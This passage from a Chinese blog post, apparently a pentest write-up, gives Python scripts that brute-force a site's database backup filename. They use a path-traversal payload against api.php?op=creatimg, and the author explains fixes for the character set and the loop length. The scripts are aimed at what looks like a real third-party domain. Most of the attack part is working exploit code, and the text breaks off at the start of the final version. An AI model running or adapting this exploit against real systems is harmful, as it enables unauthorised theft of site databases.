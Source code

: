 ```
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"

print("备份sql文件地址为：",backup_sql+".sql")
```
&#160; &#160; &#160; &#160;乍一看没啥大的问题，但是我在实际测试的时候发现了一个问题，因为这个文件名，不一定都是小写，有的可能是大写，虽然对于win系统中大小写无差别，但是当python在爆破文件名的时候，因为字典没定义大写，可能遇到是大写的字母就直接程序运行结束，一开始我就是遇到这个问题了，所以不管怎么跑，跑出来的备份数据库名不对。后来我优化了一下代码如下：
```
# coding=utf-8
import requests
import itertools
characters = "abcdefghjklmnopqrstuvwxyz0123456789ABCDEFGHIGKLMNOPQRSTUVWXYZ_.-"
backup_sql = ""
payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
url = "http://www.cqmxnt.com"
flag = 0
for num in range(1,7):
    if flag:
        break
    for pre in itertools.permutations(characters,num):
        pre = ''.join(list(pre))
        payload = payload.format(location=pre)
        r = requests.get(url+payload)
        if r.status_code == 200 and "PNG" in r.text:
            flag = 1
            backup_sql = pre
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
print("[+] 前缀为：",backup_sql)
flag = 0
for i in range(30):
    if flag:
        break
    for ch in characters:
        if ch == characters[-1]:
            flag = 1
            break
        payload = payload.format(location=backup_sql+ch)
        r = requests.get(url + payload)
        if r.status_code == 200 and "PNG" in r.text:
            backup_sql += ch
            print("[+] ",backup_sql)
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"

print("备份sql文件地址为：",backup_sql+".sql")
```
&#160; &#160; &#160; &#160;嗯，这下看起来应该没问题，接着又跑了一下，问题特么又来了，循环次数不够，没跑完就结束了！因为一开始没搭建本地环境也不知道备份数据库文件名有多少，就往大了猜，就把循环设置为了100，这下子应该是没毛病了。完整代码如下：
```
# coding=utf-8
import requests
```